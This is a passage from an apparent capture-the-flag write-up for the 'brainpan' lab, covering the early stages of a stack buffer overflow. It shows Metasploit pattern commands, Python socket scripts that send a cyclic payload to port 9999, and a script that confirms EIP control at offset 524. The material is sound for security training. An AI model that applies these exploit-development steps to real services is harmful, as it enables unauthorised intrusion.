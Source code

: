 ```bash
┌──(alienum㉿kali)-[~]
└─$ msf-pattern_create -l 600 -s ABCDEFGHIKL,alienum,123456789
Aa1Aa2<REMOVED>Dl1Dl2
```

- offset.py

```python
import socket,sys

#msf-pattern_create -l 600 -s ABCDEFGHIKL,alienum,123456789
payload = "Aa1Aa2<REMOVED>Dl1Dl2"


try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(payload.encode('utf-8'))
    s.close()
except Exception as e:
    print("[X] Connection error")
    print(e)
    sys.exit()
```


- EIP Overrided with value :  **35754334**
- This number will be usefull to find the exact offset in order to control the EIP

![image]( /assets/img/brainpan/Pasted image 20210609232300.png)

###### Exact offset

- The exact offset is  524

```bash
┌──(alienum㉿kali)-[~]
└─$ msf-pattern_offset -l 600 -s ABCDEFGHIKL,alienum,123456789 -q 35754334
[*] Exact match at offset 524
```

![image]( /assets/img/brainpan/Pasted image 20210609234130.png)

- Let's confirm the EIP control


#### Control

- EIP Control Success

![image]( /assets/img/brainpan/Pasted image 20210609234824.png)

```python
import socket,sys

#Identify the EIP control
#EIP SHOULD BE 42424242 = BBBB
payload = "A" * 524 + "B" * 4

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(payload.encode('utf-8'))
    s.close()
except Exception as ex:
    print("[X] Connection error")
```